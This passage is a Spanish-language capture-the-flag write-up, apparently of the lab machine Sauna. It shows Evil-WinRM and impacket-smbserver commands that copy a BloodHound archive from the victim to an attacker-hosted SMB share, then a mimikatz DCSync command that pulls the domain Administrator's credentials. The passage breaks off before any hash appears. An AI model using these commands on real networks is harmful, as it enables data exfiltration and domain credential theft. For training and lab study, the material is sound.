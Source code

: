 Antes de subir el archivo al BloodHound sofware tenemos que pasarnoslo a nuestra maquina, para ello nos creamos un recurso compartido con `Impacket-smbserver` y nos sincronizamos 
con el recurso compartido que acabamos de crear desde la maquina victima:
```bash
*Evil-WinRM* PS C:\Windows\Temp\Privesc> net use x: \\10.10.16.7\smbFolder
The command completed successfully.
```

```bash
# impacket-smbserver smbFolder $(pwd) -smb2support                                                                                                                                                           1 ⚙
Impacket v0.9.24.dev1+20210827.162957.5aa97fa7 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.175,49885)
[*] AUTHENTICATE_MESSAGE (\,SAUNA)
[*] User SAUNA\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
``` 

Una vez ya tenemos el Recurso x: o smbFolder seteado procedemos a pasarnos el archivo .zip
```bash
*Evil-WinRM* PS C:\Windows\Temp\Privesc> copy 20220104141535_BloodHound.zip x:\20220104141535_BloodHound.zip
```
Listo, Ya tendriamos nuestro archivo en nuestra maquina Atacante, preparado para subirlo al BloodHound.

# BloodHound - GetChangesAll - DCSynck Attack
Con el BloodHound Activo y chequeando por posibles formas de llegar al DC, pinchamos en la forma de realizar un 
DCSYnc Attack y enumeramos la siguiente informacion:
```bash
El usuario `svc_loanmgr` tiene como privilegios `GetChanges-All` & `GetChanges` sobre El dominio `Egotistical-bank.local`  
```
Pinchamos sobre como podemos abusar de esto y vemos una potencial forma de realizar con mimikatz.exe un DCSynck 
Procedemos a subir el archivito `mimikatz.exe` y realizar el DCSynck Attack:

```bash
*Evil-WinRM* PS C:\Windows\Temp\Privesc>" C://Windows/Temp/Privesc/mimikatz.exe 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator' exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator
[DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

```